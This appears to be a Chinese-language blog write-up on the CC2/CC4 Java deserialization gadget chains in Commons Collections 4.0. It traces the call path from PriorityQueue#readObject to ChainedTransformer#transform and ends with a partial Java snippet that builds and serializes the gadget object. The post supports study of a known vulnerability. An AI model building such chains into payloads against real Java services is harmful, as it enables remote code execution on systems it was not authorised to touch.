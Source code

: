 ```yaml
---
title: "PriorityQueue CC2&CC4"
onlyTitle: true
date: 2024-8-2 16:11:32
categories:
- java
- CC
tags:
- CC
img: https://typora-202017030217.oss-cn-beijing.aliyuncs.com/%E5%9B%BE%E7%89%87%E7%B4%A0%E6%9D%90/1080P%20A%20%E6%94%B6%E8%97%8F%E9%87%8F%E6%9C%80%E5%A4%9A/1080PA%E5%A3%81%E7%BA%B894.png

---
```




CC2，4都是Common Collections 4.0版本下的反序列化漏洞。pom依赖：

```xml
        <dependency>
            <groupId>org.apache.commons</groupId>
            <artifactId>commons-collections4</artifactId>
            <version>4.0</version>
        </dependency>
```

## CC4

这个版本特点在于TransformingComparator脑瘫的加上了Serializable接口，并在readObject乱搞

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240802143255644.png)

chainedTransformer#transform()可以用TransformingComparator#compare触发

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240802143009550.png)

PriorityQueue#siftDownUsingComparator调用了compare

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240802143054560.png)

向上一直查找用法，在PriorityQueue#readObject能链上整条链

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240802143133929.png)

于是有如下代码利用：

```java
    ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
    TransformingComparator transformingComparator = new TransformingComparator<>(chainedTransformer,null);
    PriorityQueue<Object> priorityQueue = new PriorityQueue<>(1,transformingComparator);
    serialize(priorityQueue);
```

